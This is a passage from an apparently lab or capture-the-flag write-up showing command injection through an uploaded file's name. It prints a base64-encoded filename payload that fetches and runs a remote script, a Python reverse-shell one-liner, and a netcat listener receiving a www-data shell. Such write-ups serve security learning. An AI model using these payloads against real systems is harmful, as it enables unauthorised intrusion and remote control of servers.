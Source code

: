 This means we indeed have command injection

Lets get a shell via this

So trying like normal payload didn't work for me

Here's what i then did

Since the command injection is based on the file we upload that means i can try uploading a file in which its name is our payload

```
┌──(mark__haxor)-[~]
└─$ echo -n "curl 10.10.16.54/shell.sh|sh" | base64
Y3VybCAxMC4xMC4xNi41NC9zaGVsbC5zaHxzaA==
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~]
└─$ mv payload.png 'echo Y3VybCAxMC4xMC4xNi41NC9zaGVsbC5zaHxzaA== |base64 -d|sh |'  
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~]
└─$ ls echo\ Y3VybCAxMC4xMC4xNi41NC9zaGVsbC5zaHxzaA=\=\ \|base64\ -d\|sh\ \| 
'echo Y3VybCAxMC4xMC4xNi41NC9zaGVsbC5zaHxzaA== |base64 -d|sh |'
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~]
└─$ 

```

So the content of the shell.sh file will be my reverse shell and i'll also set a python web server in the same directory as where the shell.sh is in

```
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~/Desktop/Scripts]
└─$ cat shell.sh 
#!/bin/bash

export RHOST="10.10.16.54";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~/Desktop/Scripts]
└─$ pyws -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now i'll upload the payload now
![image](https://user-images.githubusercontent.com/113513376/213944296-b044d57b-401e-410f-af7e-7cbdf3af4bf6.png)

Then after i press upload it just hangs but back on the netcat listener we get a callback

```
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.16.54] from (UNKNOWN) [10.129.138.243] 52110
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
